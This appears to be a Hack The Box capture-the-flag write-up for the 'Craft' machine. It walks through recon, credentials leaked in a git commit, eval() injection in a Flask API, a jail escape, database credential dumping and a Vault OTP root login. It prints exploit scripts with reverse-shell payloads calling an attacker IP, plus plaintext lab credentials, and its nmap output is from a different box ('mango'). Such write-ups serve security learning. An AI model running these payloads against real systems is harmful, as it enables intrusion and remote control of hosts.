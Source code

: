 ```yaml
---
tags: 🥷
---
```


# Craft

![](https://i.imgur.com/DOJzRQ6.png)

## Recon


After running `nmap` we get:
```bash
# Nmap 7.80 scan initiated Fri Nov 22 09:31:03 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Changing hosts file

By looking at the source code we can see gogs and api subdomains


So I just modified the  /etc/hosts to the following in order to access them.
```
10.10.10.110    craft.htb gogs.craft.htb api.craft.htb
```

### Gogs page
![](https://i.imgur.com/wDN37yi.png)


By a simple Google search we find out that [Gogs](https://gogs.io/) is a somewhat widely used git service.

Exploring the Craft repo we quickly find that there was an issue and a "fix" was implemented:
![](https://i.imgur.com/eAIzGds.png)

By simply looking at the code we can easily identify where the vulnerability is. That is, passing user defined input directly into the eval function. 

We can also see that an API is used in the test file, so let's take a look at it as well.

### API page
We are presented with this once the page loads:
![](https://i.imgur.com/4cdaJZf.png)

So as you can see we can login ( therefore getting a token ), check the validity of the token and delete,update,create,get brews. However we can't interact with it since we don't have any credentials in order to get a token...

But wait, let's take a closer look at those 2 commits from before. 

![](https://i.imgur.com/LjZ4X8U.png)

OH, there you go, credentials found in the source code. Very bad practice indeed :))

## Exploiting eval
Now that we have the credentials needed to get a token, we need to think of a way to exploit the eval function. Wel... that's easy we just need to do this:

```python
import requests
import json
import urllib3

urllib3.disable_warnings()

url = "https://api.craft.htb/api/"
s = requests.Session()
r = s.get(url + "auth/login", auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(r.text)['token']
print(token)

data = {
    "abv"       : "__import__('os').system('bash -i >& /dev/tcp/10.10.15.136/7070 0>&1')#",
    "name"      : "test",
    "brewer"    : "test",
    "style"     : "test"
}
data = json.dumps(data)

headers = {
    'X-Craft-API-Token': token,
    'Content-Type': 'application/json'
}
r = s.post(url + "brew/", headers=headers, data=data)
print(r.text)
```

And start our listener:

```bash
nc -nvlp 7070
```

Execute it and... Nothing. But it sohuld work right?

Well that's what I thought in the first place as well, but after a lot of thinking, poking and coffe I found out that I was pretty restricted, so I said fuck it. And build the payload from scratch with the things I knew would work. 

Finally I've ended up with this:
```python
eval(compile("""for x in range(1):\n import socket,subprocess, os\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n s.connect(("10.10.15.200", 7070))\n os.dup2(s.fileno(),0)\n os.dup2(s.fileno(),1)\n os.dup2(s.fileno(),2)\n import pty\n pty.spawn("/bin/sh")""","","single"))
```

After running the same script again, but with this payload I've got a shell.  Hooray!!

## Escaping the jail
I run `whoami` and I'm root. Uhmmm.... That's pretty strange, but ok let's take the root.txt
```bash
cat: /root/root.txt: No such file or directory
```

At this point I was confused, I thought that I gained access to a box that I wasn't supposed to, but that couldn't happen. Thus, I took a deeper look and found out that I was in a jail. However, I was having access to a file that I was previously interested in, but couldn't find it in the gogs page. That file being *`settings.py`*

So I just saw it in the directory I was currently in and took a look at it:

```python
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Another credentials, ok... but what can we do with them? Well, he is using them to connect to the db so let's do the same:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host='db',
                             user='craft',
                             password='qLGockJ6G2J75O',
                             db='craft',
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "select * from users"
        cursor.execute(sql)
        result = cursor.fetchall()
        for i in range(len(result)):
            print(result[i])

finally:
    connection.close()
```

And we get:

```
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Nice we've now got the credentials for every user.
Now what?

At this point I thought to SSH with the found credentials, but it didn't work. So after getting into some really deep rabbit holes I've decided to try to connect to the Gogs page with the new secrets as a last hope.

And I've got in with the `gilfoyle` user, prompted with this:
![](https://i.imgur.com/Zwo1dtQ.png)

> **Note**: Don't overcomplicate things, work with what you have and exhaust every possibility before moving on

I've instantly looked at the `.ssh` folder and found the private key and therefore got user. 

## Getting root

Once I've got user I immediatly went back to the new repo to have a deeper look into it, since I learned my lesson from the previous incident.

After looking through almost everything, the `vault/secrets.sh` popped as the most interesting to have a look at:
```bash
#!/bin/bash
# set up vault secrets backend
vault secrets enable ssh

vault write ssh/roles/root_otp \
        key_type=otp \
        default_user=root \
        cidr_list=0.0.0.0/0
```

With the help from Google I've found [this](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html). I've just followed the article:

```bash
vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Got the otp and used it to connect through SSH, since root was allowed to login.


## See Also
[[HTB]]
